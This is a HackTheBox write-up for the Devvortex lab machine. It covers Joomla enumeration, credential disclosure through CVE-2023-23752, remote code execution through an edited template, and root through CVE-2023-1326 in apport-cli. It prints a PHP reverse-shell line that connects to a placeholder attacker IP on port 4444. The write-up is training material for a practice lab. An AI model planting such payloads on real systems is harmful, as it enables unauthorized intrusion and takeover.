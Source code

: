 ```yaml
---
title: "Devvortex — HackTheBox [Writeup]"
description: "Hackthebox writeup for Devvortex machine"
pubDate: "Dec 5 2023"
---
```


Let’s start with a basic nmap scan

![](../../assets/blog/images/devvortex/1*xwXvB9Z3di6q49q_mT7scQ.png)

We can see that 22 (SSH) and 80 (HTTP) ports are open. 
If you open it in the browser you will be redirected to devvortex.htb. It means we need to add it in /etc/hosts

After doing the previous step and refreshing the page we can see the website content

![](../../assets/blog/images/devvortex/1*3TSkOp95-IPhvbfeSVdrGg.png)

After examining the website I didn’t find anything interesting.
Then I started enumerating directories and vhosts using ffuf

![Directory Enumeration](../../assets/blog/images/devvortex/1*ozdiDdSSOP3Ri1i8B4jBMA.png)

![VHost Enumeration](../../assets/blog/images/devvortex/1*5B9GwPkucjCVFdSXaUsydA.png)

Cool. We found the dev.devvortex.htb subdomain. We need to add it in the hosts file too.

![/etc/hosts file](../../assets/blog/images/devvortex/1*AqUovtv4vSQK8IDsDoNtuw.png)

![](../../assets/blog/images/devvortex/1*rqUzLIDtg6PF-OjkisHLGw.png)

Perfect. Now let’s run a directory scan on this subdomain

![](../../assets/blog/images/devvortex/1*N8lpbWhzgGj3xTmOAAiGXA.png)

We identified a few directories. /administrator directory redirects us to Joomla admin panel

![](../../assets/blog/images/devvortex/1*cUkDkb8fifv3EpZxjWfu2g.png)

We can you [joomscan](https://github.com/OWASP/joomscan) tool to get more information about the website


Joomla version of the website is 4.2.6.
If we search for Joomla 4.2.6 vulnerabilities we will find out that there exists one interesting vulnerability with a publicly known exploit, which allows unauthenticated user access to webservice endpoints which then can lead to information disclosure

![Joomscan Result](../../assets/blog/images/devvortex/1*EYc_Gyb3QcEemuiNGgwUSA.png)

I used this PoC [https://github.com/adhikara13/CVE-2023-23752](https://github.com/adhikara13/CVE-2023-23752)

![](../../assets/blog/images/devvortex/1*xL7OoawD_MTutu_NtJ4K1Q.png)

script gives us database name, username and password. I also tried and used it to login the admin panel and luckily it worked.

![](../../assets/blog/images/devvortex/1*MjF38zToMA_kudFEFZcrbA.png)

When you have Joomla admin credentials it’s so easy to get RCE too using a simple trick. You can check details on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce).

Steps to RCE:

1. Go to System > Site Templates > Cassiopeia Details and Files

1. Choose the file you want to edit (I used error.php)

1. Add the following code in the file and click Save

```
# Replace YOUR_IP with your HackTheBox VPN ip address
system("bash -c'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'")
```

![](../../assets/blog/images/devvortex/1*s6jOepRt4bVxuvlDpXPuNg.png)

4. Start a listener

![](../../assets/blog/images/devvortex/1*nLR7rxHcWHSlIVbQrdjVHg.png)

5. Now load the file you edited (error.php in this case) using the URL
http://dev.devvortex.htb/templates/cassiopeia/error.php and you will get the reverse shell and upgrade to tty shell for better experience

![](../../assets/blog/images/devvortex/1*S8fnKT_86wnsh47ACVqBQg.png)

![](../../assets/blog/images/devvortex/1*7klDJhyU3uAbyRDI8nH3bA.png)

We already have Database Credentials (you can also see them in /var/www/dev.devvortex.htb/configuration.php file) which we exfiltrated earlier using Joomla exploit. Let’s try and connect to the database and try to get more information

![](../../assets/blog/images/devvortex/1*ghU8iVYrVDxw8S5u2_PMfA.png)

you can list tables using show tables; command and you will find out there is a *sd4fg_users* table

![](../../assets/blog/images/devvortex/1*Is99Iialf7GjLIoubhG-ow.png)

Now select data from the table

![](../../assets/blog/images/devvortex/1*JlhMZCfdbevLCtoVUDS4jw.png)

Great! There is another user’s password hash. We can use john to crack it

![](../../assets/blog/images/devvortex/1*oNqXmAV9P08XoYUgsO7Gbg.png)

You can also see in /etc/passwd file that logan is a Linux user

![](../../assets/blog/images/devvortex/1*Exa2HzqRdav_zxJeU2Zsvw.png)

It seems like we might be able to log in ssh using this user and get a user flag

![](../../assets/blog/images/devvortex/1*7JT7D9k6ps7M0Bk2ImXraA.png)

Bingo 🥳

Now it’s time for privilege escalation. Before running LinPEAS or anything I always check sudo -l command to see which commands the user can run using sudo. logan user can run apport-cli using sudo

![](../../assets/blog/images/devvortex/1*7PJ1DNS10cld-IS0oZvBCA.png)

apport-cli is a CLI tool for collecting and analysing data about crashed processes.

Few months ago **CVE-2023–1326** was publish for apport-cli allows attacker to escalate privileges on the system and it looks like there exists publicly known exploits for this vulnerability
[CVE-2023-1326 - Github Advisory Database](https://github.com/advisories/GHSA-qgrc-7333-5cgx)

Let's reproduce it

Steps:
1) Create a file in /var/crash directory

![](../../assets/blog/images/devvortex/1*gOrMJjaYUa-EJ-T9beSJFw.png)

2) execute *sudo apport-cli -c /var/crash/crash.crash less *and choose **V **when prompted

![](../../assets/blog/images/devvortex/1*CT6yj4l9c3JiOcV7pcYvoA.png)

3) Wait for a few seconds and after you see a colon (:) symbol type !whoami and click enter

![](../../assets/blog/images/devvortex/1*1IzINyMmWmfYIqwm0a5myw.png)

![](../../assets/blog/images/devvortex/1*_k4T_zyzPBDmuJuTBmU9RA.png)

Perfect. We are **root**

Now type !cat /root/root.txt to get a flag

![](../../assets/blog/images/devvortex/1*KQCfB43gi_KoYHOcGfw28g.png)

![](../../assets/blog/images/devvortex/1*oSAtG5i8E57P5nlYTuokkg.png)

Pwn3d! 🏁

Follow me: [https://twitter.com/_Lazzarus](https://twitter.com/_Lazzarus)
